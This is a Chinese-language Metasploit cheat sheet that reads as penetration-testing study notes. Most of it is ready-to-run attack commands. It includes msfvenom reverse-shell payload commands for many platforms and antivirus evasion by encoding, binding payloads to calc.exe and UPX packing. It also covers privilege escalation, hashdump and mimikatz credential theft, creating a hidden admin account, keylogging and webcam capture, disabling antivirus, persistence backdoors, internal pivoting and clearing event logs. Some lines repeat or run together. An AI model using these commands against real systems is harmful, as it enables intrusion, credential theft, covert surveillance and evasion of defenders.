

# metasploit

## metasploit基础

-   

### **msf目录结构：**

-   路径：/usr/share/metasploit-framework/

    -   ```bash
        (base) root in /usr/share/metasploit-framework λ ls
        app     documentation  metasploit-framework.gemspec  msfdb            msfupdate  Rakefile         script-recon
        config  Gemfile        modules                       msf-json-rpc.ru  msfvenom   ruby             scripts
        data    Gemfile.lock   msfconsole                    msfrpc           msf-ws.ru  script-exploit   tools
        db      lib            msfd                          msfrpcd          plugins    script-password  vendor
        ```

-   data目录：存放metepreter，exploits（cve利用代码），wordlists（字典文件）

- modules：存放着各个攻击模块
  
- scripts：存放着msf要用到的脚本文件
    1.  
- tools：存放着各种可用的工具
    1.  
- plugins存放着msf的各种插件
    1.  

### **基础命令：**

-   | 进入框架：                 | msfconsole                                                   |
    | -------------------------- | ------------------------------------------------------------ |
    | 返回上一层：               | back                                                         |
    | 退出msfconsole：           | exit                                                         |
    | 显示可使用的模块           | show auxiliary  show exploits   show payloads  show       encoders和show nops |
    | show       payloads        | 进入模块后显示与该模块相兼容的攻击载荷                       |
    | check                      | 某些模块支持，可以检测目标是否具有该漏洞                     |
    | jobs                       | 查看有哪些任务正在运行，                                     |
    | kill       <jobs>          | kill不需要的任务                                             |
    | load                       | 这个参数可以从metasploit的plug库里面加载一些插件。‍‍           |
    | unload       <name>        | 终止启动的插件                                               |
    | workspace：                | -a <name>       创建一个工作台，加空格批量创建，       -d删除。       workspace       <name>进入工作台，       workspace -r重命名 |
    | db_**:                     | 扫描的结果会存储到工作台，help       \| grep 查看有那些db_命令 |
    | db_import       <filename> | 导入扫描记录文件到数据库                                     |

### exploit模块：漏洞利用

> 使用该模块来攻击目标主机

-   模块路径：**/usr/share/metasploit-framework/modules/exploits 可以直接看有哪些漏洞**

    ```bash
    (base) root in ~ λ ls /usr/share/metasploit-framework/modules/exploits     
    
    aix        bsd     example_linux_priv_esc.rb  example_webapp.rb  hpux   mainframe  openbsd  solaris
    android    bsdi    example.py                 firefox            irix   multi      osx      unix
    apple_ios  dialup  example.rb                 freebsd            linux  netware    qnx      windows
    ```

    -   漏洞利用代码是以 rb 结尾的文件，因为metasploit是用Ruby语言编写的。

-   使用search命令查找相关漏洞：search ms17-010。

    - path:根据路径查找

    - latfrom：在多个结果里选择rank高的显示，缩小查找范围

    - type：根据类型查找，payload，auxiliary，post三种

-   攻击流程

    - 使用use进入模块: use     exploit/windows/smb/ms17_010_eternalblue  

    - **使用info查看模块信**息：这个参数可以查看所在模块的信息，包括选项、利用条件、漏洞作者、可以利用的payload等等。可以进入模块info，或者 info pathname

    - show     targets：查看可攻击的系统平台，这个命令显示该攻击模块针对哪些特定操作系统版本、语言版本的系统

    - - 有些其他的漏洞模块对操作系统的语言和版本要求的很严，比如MS08_067，这样就要我们指定目标系统的版本的。如果不设置的话，MSF会自动帮我们判断目标操作系统的版本和语言(利用目标系统的指纹特征)

    - show payloads：查看可以在这个模块使用的payload，有些exploit选择好了payload。具体看show options

    - 设置攻击载荷：set     payload windows/x64/meterpreter/reverse_tcp

    - 查看模块需要配置的参数：show     options

    - 设置参数：set RHOST 192.168.125.138 也可以批量设置 192.168.125.125-129.168.125.140

    - 攻击：exploit     /  run 

    - 后渗透阶段

-   setg: 设置一个模块的全局设置，下次来就不用设置RHOST RPORT之类的，unsetg撤销，记得save保存

### 攻击载荷payload模块：

- 通过exploit使用或者自己就可以直接使用

-   payload模块路径：/usr/share/metasploit-framework/modules/payloads
    -   
    
- Payload中包含攻击进入目标主机后需要在远程系统中运行的恶意代码，而在Metasploit中Payload是一种特殊模块，它们能够以漏洞利用模块运行，并能够利用目标系统中的安全漏洞实施攻击。简而言之，这种漏洞利用模块可以访问目标系统，而其中的代码定义了Payload在目标系统中的行为。

- **Shellcode**：Shellcode是payload中的精髓部分，在渗透攻击时作为攻击载荷运行的一组机器指令。Shellcode通常用汇编语言编写。在大多数情况下，目标系统执行了shellcode这一组指令 之后，才会提供一个命令行shell。

-   Metasploit中的 Payload 模块主要有以下三种类型：
    -   -Single：Single是一种完全独立的Payload，而且使用起来就像运行 calc.exe 一样简单，例如添加一个系统用户或删除一份文件
    -   -Stager：Stager这种Payload负责建立目标用户与攻击者之间的网络连接，并下载额外的组件或应用程序。一种常见的Stager Payload就是reverse_tcp，它可以让目标系统与攻击者建立一条tcp连接，让目标系统主动连接我们的端口(反向连接)。另一种常见的是bind_tcp，它可以让目标系统开启一个tcp监听器，而攻击者随时可以与目标系统进行通信(正向连接)。
    -   -Stage：Stage是Stager Payload下的一种Payload组件，这种Payload可以提供更加高级的功能，而且没有大小限制。
    
-   在 Metasploit 中，我们可以通过Payload的名称和使用格式来推断它的类型：
  
    - ```bash
        Single Payload的格式为：	        <target>/ <single>             如：windows/powershell_bind_tcp
        Stager/Stage Payload的格式为：	<target>/ <stage> / <stager>   如：windows/meterpreter/reverse_tcp
        ```

-   **Stager中几种常见的payload:**
  
    ```bash
    windows/meterpreter/bind_tcp #正向连接
    windows/meterpreter/reverse_tcp #反向连接，常用
    windows/meterpreter/reverse_http #通过监听80端口反向连接
    windows/meterpreter/reverse_https #通过监听443端口反向连接
    ```
    
    -   *正向连接：我们能访问服务器ip，攻击机上开了防火墙，只允许访问指定的端口，比如被攻击机只对外开放了80端口。那么，我们就只能设置正向连接80端口了，这里很有可能失败，因为80端口上的流量太多了*
    
    -   *反向链接：我们的主机和被攻击机都是在外网或者都是在内网，这样被攻击机就能主动连接到我们的主机了。*
        -   反向连接的话，即使被攻击机开了防火墙也没事
            -   反向连接80和443端口使用场景：被攻击机能主动连接到我们的主机，还有就是被攻击机的防火墙设置的特别严格，就连被攻击机访问外部网络的流量也进行了严格的限制，只允许被攻击机的80端口或443端口与外部通信
    

### Auxiliary辅助探测模块：

该模块不会直接在攻击机和靶机之间建立访问，它们只负责执行扫描，嗅探，指纹识别等相关功能以辅助渗透测试。有些可以用来探测主机是否存在该漏洞。具体看简介。

-   

-   
-   +就表示可能存在漏洞
-   探测到了漏洞之后就使用对应的exlpoit模块。

- hosts显示扫描记录： -c address 只查看ip地址 -R 自动填写RHOST

## msfvenom

>  Clipped from: <https://thief.one/2017/08/01/1/>

msfvenom是用来生成木马文件的，然后在靶机上运行，本机设置监听端口就可以拿shell了。

### **基础命令**

| **-p, --payload \<payload>**   | **指定需要使用的payload(攻击荷载)** msfvenom --list payloads可以查看支持哪些 |
|--------------------------------|------------------------------------------------------------------------------|
| -l, --list \[module_type\]     | 列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all       |
| -n, --nopsled \<length>        | 为payload预先指定一个NOP滑动长度                                             |
| **-f, --format \<format>**     | **指定输出格式 (使用 --list formats 来获取msf支持的输出格式列表)**           |
| **-e, --encoder \[encoder\]**  | **指定需要使用的encoder（编码器）**                                          |
| **-a, --arch \<architecture>** | **指定payload的目标架构**                                                    |
| --platform \<platform>         | 指定payload的目标平台                                                        |
| -s, --space \<length>          | 设定有效攻击荷载的最大长度                                                   |
| -b, --bad-chars \<list>        | 设定规避字符集，比如: &#039;\\x00\\xff&#039;                                 |
| -i, --iterations \<count>      | 指定payload的编码次数                                                        |
| -c, --add-code \<path>         | 指定一个附加的win32 shellcode文件                                            |
| -x, --template \<path>         | 指定一个自定义的可执行文件作为模板                                           |
| -k, --keep                     | 保护模板程序的动作，注入的payload作为一个新的进程运行                        |
| --payload-options              | 列举payload的标准选项                                                        |
| **-o, --out \<path>**          | **保存payload**                                                              |
| -v, --var-name \<name>         | 指定一个自定义的变量，以确定输出格式                                         |
| --shellest                     | 最小化生成payload                                                            |
| -h, --help                     | 查看帮助选项                                                                 |
### **基础payload:**

1.  命令格式: msfvenom -p \<payload> \<payload options> -f \<format> -o \<path>
1.  Linux:
    1.  反向连接：
    *msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=\<Your IP Address> LPORT=\<Your Port to Connect On> -f elf \> shell.elf*

1.  正向连接：
    *msfvenom -p linux/x86/meterpreter/bind_tcp LHOST=\<Target IP Address> LPORT=\<Target Port to Connect On> -f elf \> shell.elf*
1.  Windows:
    1.  **msfvenom -p windows/meterpreter/reverse_tcp LHOST=\<Your IP Address> LPORT=\<Your Port to Connect On> -f exe \> shell.exe**
    2.  msfvenom -a x86 --platform windows -p **windows/meterpreter/reverse_tcp** -e x86/shikata_ga_nai -i 20 lhost=192.168.10.11 lport=8888 -x calc.exe -f exe -o test.exe #编码20次、捆绑正常的32位calc.exe，生成32位的test.exe文件
1.  PHP:
    -   msfvenom -p php/meterpreter/reverse_tcp LHOST=\<Your IP Address> LPORT=\<Your Port to Connect On> -f raw \> shell.php
    -   再vim修改下文件内代码，看符不符合php规范
    -   上传到靶机上的web上
    -   然后访问靶机web上的该php文件
1.  Bash:
    1.  msfvenom -p cmd/unix/reverse_bash LHOST=\<Your IP Address> LPORT=\<Your Port to Connect On> -f raw \> shell.sh

1. 安卓app:
    msfvenom -p android/meterpreter/reverse_tcpLHOST=192.168.10.27LPORT=8888 -o \~/Desktop/test2.apk
1. Mac:
    msfvenom -p osx/x86/shell_reverse_tcpLHOST=192.168.10.27LPORT=8888 -f macho \> shell.macho
1. ASP:
    msfvenom -p windows/meterpreter/reverse_tcpLHOST=192.168.10.27LPORT=8888 -f asp \> shell.asp
1. ASPX：
    msfvenom -p windows/meterpreter/reverse_tcpLHOST=192.168.10.27LPORT=8888 -f aspx \> shell.aspx
1. JSP:
    msfvenom -p java/jsp_shell_reverse_tcpLHOST=192.168.10.27LPORT=8888 -fraw> shell.jsp
1. ASP:
    msfvenom -p windows/meterpreter/reverse_tcpLHOST=192.168.10.27LPORT=8888 -f asp \> shell.asp
1. ASPX：
    msfvenom -p windows/meterpreter/reverse_tcpLHOST=192.168.10.27LPORT=8888 -f aspx \> shell.aspx
1. JSP:
    msfvenom -p java/jsp_shell_reverse_tcpLHOST=192.168.10.27LPORT=8888 -fraw> shell.jsp

**payload加编码（绕过杀软）:**

1.  msfvenom -p \<payload> \<payload options> -a \<arch> --platform \<platform> -e \<encoder option> -i \<encoder times> -b \<bad-chars> -n \<nopsled> -f \<format> -o \<path>
2.  msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 -f exe \> 1.exe
3.  生成执行计算器payload例子：msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe \> 1.exe


**利用 upx 加壳**

1.  upx -9 test.exe -k -o test2.exe
**配合木马弹Shell：使用msf连接上被执行的木马文件，达到控制目标服务器。**

### msf监听

开启msf，启用exploit/multi/handler模块。

-   
-   **这里set的payload跟生成木马使用的payload要一致，其余的参数根据选择的payload而填写。**

## metasploit后渗透攻击

> 拿到shell之后，就可以用metasploit来进行后渗透攻击了。

- Meterpreter属于stage payload,载荷体，就是比较高级的payload，只存在于靶机内存中，会话会加密。
- 首先要发送stager payload（载荷器）到靶机上。\*\*\*\*\*/meterpreter/\*\*\*\*\*`。然后攻击机使用后门模块 exploit/multi/handler，set同样的payload连接载荷器。这样获得了一个meterpreter>的命令行。

- 升级Session,有时利用模块的到的不是meterpreter 类型的 session 的话，可能不好操作。我们可以执行命令**sessions -u id**来升级session。执行该命令，默认调用的是**post/multi/manage/shell_to_meterpreter** 模块。然后回返回一个新session，利用sessions -l查看新sessionID。

### 提权:

普通权限下，meterpreter功能受限制

#### 通用提权

-   getsystem命令**,不支持由php返回的meteperter，**使用多种技术在目标系统中实现提权。Windows的系统权限名字是NT AUTHORITY\\SYSTEM 。
-   exp提权（溢出提权）：
    1.  `run post/windows/escalate/ms10_073_kbdlayout`

#### windows提权：

- bypassuac：只适用windows，需要用户是管理员组成员

    -   use exploit/windows/local/bypassuac，set session 1，run会返回新的session

- 查看系统已打补丁：

    -   输入shell进入到该主机的shell下，然后：systeminfo查看系统详细信息，就可以看到补丁了

- 搜索未打补丁漏洞

    - 进入到 meterpreter 的shell下，执行run post/windows/gather/enum_patches可以直接查看哪些补丁没有打，但是由于这个模块还比较老，没有显示CVE-2018-8120的补丁号

        -   

    - MSF下还提供了post/multi/recon/local_exploit_suggester模块，该模块用于快速识别系统中可能被利用的漏洞

    - **Windows Exploit Suggester**

        -   该工具可以将系统中已经安装的补丁程序与微软的漏洞数据库进行比较，并可以识别可能导致权限提升的漏洞，而其只需要目标系统的信息。
        -   *#更新漏洞数据库，会生成一个xls的文件，如下 2020-02-12-mssb.xls*
            python2windows-exploit-suggester.py --update

        -   *#查看目标主机系统信息，保存为sysinfo.txt文件*
            systeminfo> sysinfo.txt

        -   *#然后运行如下命令，查看该系统是否存在可利用的提权漏洞*
            python2windows-exploit-suggester.py -d2020-02-12-mssb.xls -i sysinfo.txt

        -   会显示公共漏洞利用（E）或Metasploit模块（M）
            -   

- Windows Exploit Suggester - Next Generation

    -   <https://github.com/bitsadmin/wesng>

- **Sherlock脚本**：搜索是否有特定漏洞

    - 包括

        -   MS10-015 : User Mode to Ring (KiTrap0D)
        -   MS10-092 : Task Scheduler
        -   MS13-053 : NTUserMessageCall Win32k Kernel Pool Overflow
        -   MS13-081 : TrackPopupMenuEx Win32k NULL Page
        -   MS14-058 : TrackPopupMenu Win32k Null Pointer Dereference
        -   MS15-051 : ClientCopyImage Win32k
        -   MS15-078 : Font Driver Buffer Overflow
        -   MS16-016 : 'mrxdav.sys' WebDAV
        -   MS16-032 : Secondary Logon Handle
        -   MS16-034 : Windows Kernel-Mode Drivers EoP
        -   MS16-135 : Win32k Elevation of Privilege
        -   CVE-2017-7199 : Nessus Agent 6.6.2 - 6.10.3 Priv Esc

    -   | **#**搜索所有未安装的补丁 | Import-Module.\\Sherlock.ps1;Find-AllVulns |
        | ------------------------- | ------------------------------------------ |
        | **#**也可以搜索单个漏洞   | Import-Module.\\Sherlock.ps1;Find-MS14058  |

        -   

-   常用漏洞：
    -   
    -   实战中最常用的本地溢出提权有 CVE-2018-8120、MS16-032、MS15-051 和 MS14-058 。在MSF中，最常用的提权模块是CVE-2018-8120；在CobaltStrike中，最常用的提权模块的是 MS14-058。这四个提权，都有对应的exe程序。exe程序均支持32和64位的机器。

- 内核漏洞提权：只使用windows，run post/windows/gather/enum_patches查看补丁，然后找exp

    - 通过searchsploit查找内核漏洞提权

    - 或者使用[**Exploit-db**](https://blog.csdn.net/qq_36119192/article/details/101146342)在线查找漏洞

### meterpreter shell：

> 当我们拿到目标服务器的meterpreter_shell后，可以进行很多操作。help查看命令

#### 基础命令

| background                  | 将msf进程放到后台                                            |
| --------------------------- | ------------------------------------------------------------ |
| sessions -i 1               | 将进程拖回前台运行                                           |
| run vnc                     | 远程桌面的开启                                               |
| **download**                | 下载文件到攻击机                                             |
| edit                        | 编辑                                                         |
| upload                      | 上传 文件到靶机                                              |
| **load stdapi**             | 有时候虽然我们获取到了meterpreter，但是执行一些命令会显示没有该命令，这时我们可以执行：load stdapi来加载，这样我们就可以执行命令了 |
| ls，ps,getwd,search,cat,rm, | getlwd 攻击者目录，lcd攻击者目录切换                         |
| getuid ，getpid             | 查看当前获取的权限 查看当前Meterpreter Shell的进程PID，      |
| migrate1384                 | 将当前Meterpreter Shell的进程迁移到PID为1384的进程上         |
| **run killav：**            | 关闭靶机的杀软                                               |
| getsystem                   | #提权,获得的当前用户是administrator才能成功                  |
| search path：               | meterpreter 查看有多少载荷器（msfconsole的search）           |
| idletime：                  | 查看目标系统运行了多长时间                                   |
| search：                    | 搜索靶机的文件，比如备份文件，敏感文件                       |
| **clearev：**               | 要结束渗透之前，把所有的痕迹都清除                           |

#### 网络及系统操作：

-   Getproxy 获取代理
-   netstat 查看端口链接
-   Shell 获取靶机shell
-   sysinfo 获取电脑信息
-   run scraper#查看目标主机详细信息 会保存到一个文件中
-   信息收集：run post/windows/gather/
    -   `是否为虚拟机: run post/windows/gather/checkvm`

#### 获取用户密码：

看权限。普通用户只能拿到当前用户的密码，无其他用户的密码。管理员能得到全部密码。


**抓取自动登录的密码**

-   很多用户习惯将计算机设置自动登录，可以使用run windows/gather/credentials/windows_autologin 抓取自动登录的用户名和密码

**导出密码哈希**

-   hashdump 模块可以从SAM数据库中导出本地用户账号，执行：runhashdump ，该命令的使用需要**系统权限**
-   用户哈希数据的输出格式为：
    用户名：SID：LM哈希：NTLM哈希:::

- 所以我们得到了三个用户账号，分别为Administrator、Guest和小谢。

- 其中Administrator和Guest的[LM](https://en.wikipedia.org/wiki/LAN_Manager)哈希（aad3b435b51404eeaad3b435b51404ee）和[NTLM](https://en.wikipedia.org/wiki/NT_LAN_Manager)哈希（31d6cfe0d16ae931b73c59d7e0c089c0）对应的是一个空密码。所以，只有小谢的哈希有效。

- 接下来要处理的就是用户小谢的密码（a86d277d2bcd8c8184b01ac21b6985f6 ）了。我们可以使用类似John这样的工具来破解密码：[John破解Window73系统密码](https://xie1997.blog.csdn.net/article/details/83373895#%E7%A0%B4%E8%A7%A3Windows%E7%B3%BB%E7%BB%9F%E5%AF%86%E7%A0%81)，或者使用在线网站解密：<https://www.cmd5.com/default.aspx>

-   还可以使用命令：run windows/gather/smart_hashdump **。**该功能更强大，如果当前用户是域管理员用户，则可以导出域内所有用户的hash

**上传mimikatz程序：**

-   我们还可以通过上传mimikatz程序，然后执行mimikatz程序来获取明文密码。
-   执行mimikatz必须**System权限**。administer用户直接用getsystem提到system权限。
    我们先getsystem提权至系统权限，然后执行 execute -i -f mimikatz.exe ，进入mimikatz的交互界面。然后执行：

-   privilege::debug
-   sekurlsa::logonpassword
    
-   **得到密码hash**

**加载kiwi模块，该模块的使用需要System权限**。

- 关于该模块的用法：[MSF中kiwi模块的使用](https://xie1997.blog.csdn.net/article/details/104802921)

-   kiwi模块同时支持32位和64位的系统，但是该模块默认是加载32位的系统，所以如果目标主机是64位系统的话，直接默认加载该模块会导致很多功能无法使用。
-   所以如果目标系统是64位的，则必须先查看系统进程列表，然后将meterpreter进程迁移到一个64位程序的进程中，才能加载kiwi并且查看系统明文。如果目标系统是32位的，则没有这个限制。
-   ps然后找x64架构的进程，migrate 进程pid。
-   加载kiwi模块：load kiwi
-   查看kiwi模块的使用 helpkiwi
    -   **creds_all： 列举所有凭据 该命令可以列举系统中的明文密码**
    -   creds_kerberos：列举所有kerberos凭据
    -   creds_msv：列举所有msv凭据
    -   creds_ssp：列举所有ssp凭据
    -   creds_tspkg：列举所有tspkg凭据
    -   creds_wdigest：列举所有wdigest凭据
    -   dcsync： 通过DCSync检索用户帐户信息
    -   dcsync_ntlm： 通过DCSync检索用户帐户NTLM散列、SID和RID
    -   golden_ticket_create：创建黄金票据
    -   kerberos_ticket_list：列举kerberos票据
    -   kerberos_ticket_purge：清除kerberos票据
    -   kerberos_ticket_use：使用kerberos票据
    -   kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
    -   lsa_dump_sam：dump出lsa的SAM
    -   lsa_dump_secrets：dump出lsa的密文
    -   password_change：修改密码
    -   wifi_list： 列出当前用户的wifi配置文件
    -   wifi_list_shared： 列出共享wifi配置文件/编码

-   或者运行MSF里面自带的mimikatz 模块 ，该模块的使用需要**System权限**。传送门：[MSF中mimikatz模块的使用](https://blog.csdn.net/qq_36119192/article/details/103002480)。目前该模块已经被kiwi模块代替了。
-   **获取密码之后就远程登陆：**
    -   这里我们已经获得了administrator的账号和密码，现在我们既可以使用administrator账号登录，也可以**新建账号登录**(hack/Password@)。(不建议直接用administrator身份登录，因为这样有可能会惊动管理员)
    -   在shell下
        -   net user hack Password@ /add 添加一个新用户hack 密码为Password@
        -   net localgroup administrators hack /add 将hack用户赋予管理员权限
        -   net user 查看是否添加成功
    -   查看3389端口是否打开，否，使用run post/windows/manage/enable_rdp打开3389端口
    -   尝试3389远程登录该主机，但是弹出 "如果我们继续登录，则会断开该主机的当前连接"。为了不惊动管理员，这里我们不继续连接了。
        -   

#### 键盘/鼠标

1.  keyscan_start#开启键盘记录功能
2.  keyscan_dump#显示捕捉到的键盘记录信息
3.  keyscan_stop#停止键盘记录功能
4.  uictl disable keyboard#禁止目标使用键盘
5.  uictl enable keyboard#允许目标使用键盘
6.  uictl disable mouse#禁止目标使用鼠标
7.  uictl enable mouse#允许目标使用鼠标

#### webcam摄像头命令

1.  screenshot#截图
2.  webcam_list #查看摄像头  
    webcam_snap #通过摄像头拍照  
    webcam_stream #通过摄像头开启视频

#### execute执行文件

1.  execute #在目标机中执行文件  
    execute -H -i -f cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互
2.  execute -H -f /bin/bash

#### 访问文件系统：

1.  Meterpreter支持非常多的文件系统命令（基本跟Linux系统命令类似），一些常用命令如下：

-   cd：切换目标目录；
    cat：读取文件内容；

- rm：删除文件；
- edit：使用vim编辑文件
- ls：获取当前目录下的文件；
- mkdir：新建目录；
- rmdir：删除目录；

#### 进程迁移:为了持久化运行。

1.  Meterpreter 既可以单独运行，也可以与其他进程进行绑定。因此，我们可以让Meterpreter与类似explorer.exe这样的进程进行绑定，并以此来实现持久化**。有些进程绑定需要管理员权限。**
2.  在下面的例子中，我们会将Meterpreter跟winlogon.exe绑定，并在登录进程中捕获键盘记录，以获得用户的密码。
3.  首先，我们需要使用：ps 命令查看目标设备中运行的进程：
    -   
4.  我们可以使用：getpid 查看我们当前的进程id
5.  使用：migrate目标进程ID命令来绑定目标进程id，这里绑定目标pid的时候，经常会断了 shell。进程迁移后会自动关闭原来进程，没有关闭可使用kill pid命令关闭进程。或者使用自动迁移进程（run post/windows/manage/migrate）命令，系统会自动寻找合适的进程然后迁移

### 导入并执行PowerShell脚本：

1.  **如果powershell脚本是用于域内信息收集的，则获取到的权限用户需要是域用户**
2.  load powershell#加载powershell功能
3.  powershell_import /root/PowerView.ps1#导入powershell脚本，提前将该powershell脚本放到指定目录，msf自己有powershell脚本。
4.  powershell_execute Get-NetDomain#执行该脚本下的功能模块Get-domain，该模块用于获取域信息，一个脚本下通常有多个功能模块
5.  powershell_execute Invoke-UserHunter#该功能模块用于定位域管理员登录的主机
6.  powershell_execute Get-NetForest#该模块用于定位域信息

#### **Post后渗透模块：**

1.  该模块主要用于在取得目标主机系统远程控制权后，进行一系列的后渗透攻击动作。
2.  run post/windows/manage/migrate#自动进程迁移
3.  run post/windows/gather/checkvm#查看目标主机是否运行在虚拟机上
4.  run post/windows/manage/killav#关闭杀毒软件
5.  run post/windows/manage/enable_rdp#开启远程桌面服务
6.  run post/windows/manage/autoroute#查看路由信息
7.  run post/windows/gather/enum_logged_on_users#列举当前登录的用户
8.  run post/windows/gather/enum_applications#列举应用程序
9.  run post/windows/gather/credentials/windows_autologin#抓取自动登录的用户名和密码
10.  run post/windows/gather/smart_hashdump#dump出所有用户的hash

### run：

执行已有的模块，输入run后按两下tab，列出已有的脚本，可以使用payload，auxiliary的模块

### **远程登陆**:

拿到管理员权限之后，可以添加一个用户，然后加到管理员组里面，然后远程登陆

1.  查看目标主机有哪些用户：查看目标主机有哪些用户
2.  接下来，我们可以在目标系统中创建一个新的用户账号：run getgui -u hack -p 123，这个命令会创建用户，并把他添加到 Administrators 组中，这样该用户就拥有远程桌面的权限了。
3.  这里成功创建了用户，但是添加到Administrators组中失败了 !如果添加到Administrators组中失败了的话，我们可以运行：shell ，进行cmd窗口手动将该用户添加到administrators组中。
4.  **启用远程桌面：**
    -   首先，我们需要确保目标Windows设备开启了远程桌面功能（需要开启多个服务），不过我们的 getgui 脚本可以帮我们搞定。我们可以使用-e参数确保目标设备开启了远程桌面功能（重启之后同样会自动开启），我们输入：run getgui -e或者run post/windows/manage/enable_rdp
5.  在开启远程桌面会话之前，我们还需要使用“idletime”命令检查远程用户的空闲时长：idletime

### **生成持续性后门：**

1. **因为meterpreter是存活在内存中，当靶机关机，连接就断了，所以我们需要在靶机上留下一个后门，对面一开机就连上我们的攻击机了。**

2. 建立持续性后门有两种方法，一种是通过**启动项启动(persistence) ，**一种是通过**服务启动(metsvc)**

3. **启动项启动：**

    -   **先用msfvenom生成一个后门木马，就一个exe文件**
    -   **然后放到windows的启动目录中：**
        C:\\Users\\$username$\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup

    -   这样这个后门每次开机就都能启动了，然后我们只要相连就监听相应的端口就行了。

-   服务启动
    1.  run persistence -X -i5-p8888-r攻击机ip#反弹时间间隔是5s会自动连接攻击机ip的8888端口，缺点是容易被杀毒软件查杀
    2.  然后它就在目标机新建了这个文件：C:\\Windows\\TEMP\\CJzhFlNOWa.vbs ，并把该服务加入了注册表中，只要开机就会启动
    3.  我们在被攻击机可以看到这个文件，是一个VBScript脚本
        -   

### **内网渗透**：

- 查看靶机的ip，**子网掩码：run get_local_subnets**

- 设置Socks代理：进行内网渗透：

    - 通过MSF起的socks代理，经常性的不监听端口，也就导致代理失败。试过好多次都是这样，应该是MSF的一个bug。

    - 添加路由：

        -   添加路由的目的是为了**让我们的MSF其他模块能访问内网的其他主机,这样我们后面搭建代理后，代理软件是按我们的路由走的。**
        -   msf界面：route print查看msf设置的路由。与linux设置的路由不一样。
        -   msf界面：route add 0.0.0.0 0.0.0.0 session_id 提供个msf的sock_proxy模块使用

    - 搭建代理：相当于是v2rayn这个软件，提供代理服务。

        - 当我们通过MSF拿到一个机器的权限后，想通过MSF搭建socks代理，然后通内网。

        - MSF中有两个代理模块，分别是socks_proxy、socks_unc。我们一般用socks_proxy，有时候MSF不会监听端口(有可能是个bug，试了好多次都有这种情况)，所以也就导致代理失败。

        - use auxiliary/server/socks_proxy

            ```bash
            set SRVHOST 0.0.0.0
            set SRVPORT 1080
            set USERNAME root
            set PASSWORD 123456
            run
            ```

        -   按下回车就会后台运行，使用jobs查看是否成功运行。
            -   

-   连接代理：使得我们的工具可以扫描内网。我们的工具的数据包会发往代理提供的端口，然后通过代理转发。
    -   apt install proxychains 安装proxychains
    -   修改/etc/proxychains.conf文件
        -   最后加上这行
        -   
    -   然后执行命令前加上 proxychains命令 ，工具的数据就会通过代理了。
        比如nmap
        -   proxychains nmap -p1-10000-Pn -sT**x**.**x**.**x**.**x**#在打开其他程序前加上proxychains

- portfwd 是meterpreter提供的一种基本的端口转发。porfwd可以反弹单个端口到本地，并且监听，使用方法如下

    -   portfwd add -l 3389 -r 靶机ip -p 3389 #将靶机的的3389端口转发到本地的3389端口上
    -   然后我们只要访问攻击机本地的3389端口就可以连接到目标主机的3389端口了
    -   rdesktop 127.0.0.1:3389
        

- 域信息收集：

    - metepreter需要system权限，在靶机shell下输入

        -   | net time/domain                      | *#查看时间服务器*       |
            | ------------------------------------ | ----------------------- |
            | net user/domain                      | *#查看域用户*           |
            | net view/domain                      | *#查看有几个域*         |
            | net group"domain computers"/domain   | *#查看域内所有的主机名* |
            | net group"domain admins"/domain      | *#查看域管理员*         |
            | net group"domain controllers"/domain | *#查看域控*             |

-   运行命令返回消息可能会比较慢

### **清除事件日志：**clearev

## 一些问题

msf拿到shell之后，发现在windows shell下执行命令会乱码，本质上是因为windows cmd默认是gbk编码的，而linux是utf-8的，所以cmd中输入 `chcp 65001` 将windows命令行编码改成utf-8。
